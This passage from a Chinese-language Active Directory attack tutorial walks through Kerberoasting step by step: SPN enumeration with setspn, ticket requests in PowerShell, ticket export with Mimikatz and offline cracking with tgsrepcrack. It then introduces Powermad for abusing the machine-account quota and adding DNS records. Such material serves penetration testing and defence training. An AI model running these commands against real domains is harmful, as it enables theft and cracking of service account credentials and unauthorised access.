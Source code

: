 用系统内置的工具setspn提取出所有的spn

```text
> setspn  -Q */*
```

![image-20191108125229577](https://p0.ssl.qhimg.com/t01f003f5f857bdd2cb.png)

请求票据

```text
> Add-Type -AssemblyName System.IdentityModel  
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.jmu.com:1433"
```

![image-20191108125257608](https://p0.ssl.qhimg.com/t01c1f0c07ad7c7bfaf.png)

从 Mimikatz 里面提取票据

```text
mimikatz # kerberos::list /export
```

![image-20191108125415725](https://p4.ssl.qhimg.com/t01b21ff179db9489ca.png)

使用 tgsrepcrack 爆破票据

```text
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

![image-20191012125853360](https://p5.ssl.qhimg.com/t011de1f3aeba729ddc.png)

### 5. [Powermad](https://github.com/Kevin-Robertson/Powermad%20)

默认的Active Directory ms-DS-MachineAccountQuota属性设置允许所有域用户向一个域中最多添加10个计算机帐户。

![image-20191108112020351](https://p4.ssl.qhimg.com/t01cb55e59c44f6a4ba.png)

Powermad包括一组用于利用ms-DS-MachineAccountQuota的功能，而无需将实际系统附加到AD。

![image-20191108111206322](https://p0.ssl.qhimg.com/t0136f6e3bda0c4feba.png)

![image-20191108111312992](https://p4.ssl.qhimg.com/t01d0e323aada689d68.png)

这个时候的账户还没有在DNS服务器里面注册

![image-20191108111341367](https://p2.ssl.qhimg.com/t01a6d224249922b744.png)

添加个DNS记录

![image-20191108111632314](https://p1.ssl.qhimg.com/t0127cb3685282cd7c0.png)

